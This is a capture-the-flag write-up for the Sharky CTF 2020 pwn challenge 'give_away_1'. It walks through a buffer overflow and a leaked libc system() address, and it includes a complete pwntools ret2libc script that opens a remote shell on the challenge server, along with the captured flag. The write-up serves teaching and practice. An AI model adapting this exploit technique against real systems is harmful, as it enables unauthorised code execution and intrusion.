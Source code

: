 ```yaml
---
title: "Sharky CTF 2020: give_away_1 (Pwn)"
layout: post
date: 2020-05-12
tags:
- CTF
- writeup
- Sharky CTF 2020
- Pwn
comments: true
---
```


> Make good use of this gracious give away.
>
> Creator: Hackhim
>
> [give\_away\_1](/files/give_away_1)
>
> [libc-2.27.so](/files/libc-2.27.so)

As with most pwn challenges, let's start off by checking what kind of binary we're given.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ file give_away_1

give_away_1: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=2b72e93281e97df94bf8362d5cf5a29f55accb8a, not stripped
```

Okay, it's just a 32 bit ELF binary. Let's run it to get a better idea of what it does.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ ./give_away_1
Give away: 0xf7dbad10

```

Seems like it just prints a hex value and gets some input from us. Great. Now let's see how well it handles a large input.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ python -c 'print "A"*1024' | ./give_away_1
Give away: 0xf7e18d10
Segmentation fault (core dumped)
```

Oh a [segmentation fault](https://en.wikipedia.org/wiki/Segmentation_fault), looks like we potentially have a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) vulnerability here. Let's open up the binary in IDA and see what further insights we can gather. Currently, we still don't know what that hex value is.

```
mov     eax, ds:(system_ptr - 1FBCh)[ebx]
push    eax
lea     eax, (aGiveAwayP - 1FBCh)[ebx] ; "Give away: %p\n"
push    eax             ; format
call    _printf ; printf("Give away: %p\n", system_ptr);
```

Oh wow is the hex value given to us an actual a reference to the `system`?

```
.got:00001FDC system_ptr      dd offset system ; DATA XREF: main+22↑r
```

Awesome, looks like we can combine this with the buffer overflow vulnerability and call `system("/bin/sh")` to get a shell. Where are we going to get the `/bin/sh` string from? We still haven't made use of the `libc-2.27.so` right?

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ grep -obUaP "/bin/sh\x00" libc-2.27.so
1564879:/bin/sh
```

Bingo! So all we have to do is to calculate the address to `/bin/sh` and use that as a parameter for our call to `system`.

Consolidating all the information we have to far, we can conclude that the payload should probably look something like this:

```
<padding of ? bytes><address(system)><padding of 4 bytes><address("/bin/sh\x00")>
```

The only information we're lacking is the length of the padding. We can easily do this with the `cyclic` utility included with [pwndbg](https://github.com/pwndbg/pwndbg).

<script id="asciicast-wH3QaSI2bviasewd7uSz4E0Hd" src="https://asciinema.org/a/wH3QaSI2bviasewd7uSz4E0Hd.js" async></script>

> TL;DR: Padding is 36

Okay, great. Now all we need to do is to write script to solve this.

```python
#! /usr/bin/python2

from pwn import *

HOST = 'sharkyctf.xyz'
PORT = 20334
BINARY = './give_away_1'

elf = context.binary = ELF(BINARY)
libc = ELF('libc-2.27.so')

# Start connection

r = remote(HOST, PORT)

# Stage 1: Get system@libc

libc_system = int(r.recvline().split()[2][2:], 16)
log.info('Leaked libc_system: 0x{:x}'.format(libc_system))

# Stage 2: Build ROP Chain

libc_base = libc_system - libc.symbols['system']
log.info('libc_base : 0x{:x}'.format(libc_base))

binsh = libc_base + libc.search("/bin/sh\x00").next()
log.info('binsh: 0x{:x}'.format(binsh))

libc_exit = libc_base + libc.symbols['exit']
log.info('libc_exit : 0x{:x}'.format(libc_exit))

rop = ROP(BINARY)
rop.raw(libc_system)
rop.raw(0xDEADC0DE)
rop.raw(binsh)

log.success('Generated ROP Chain')
log.success(rop.dump())

# Stage 3: Pwn

r.sendline(fit({ 36: rop.chain() }))

log.success('Sent payload')
log.progress('Spawning a shell...')

r.interactive()
```

Let's see it in action!

<script id="asciicast-329253" src="https://asciinema.org/a/329253.js" async></script>

Flag: `shkCTF{I_h0PE_U_Fl4g3d_tHat_1n_L3ss_Th4n_4_m1nuT3s}`
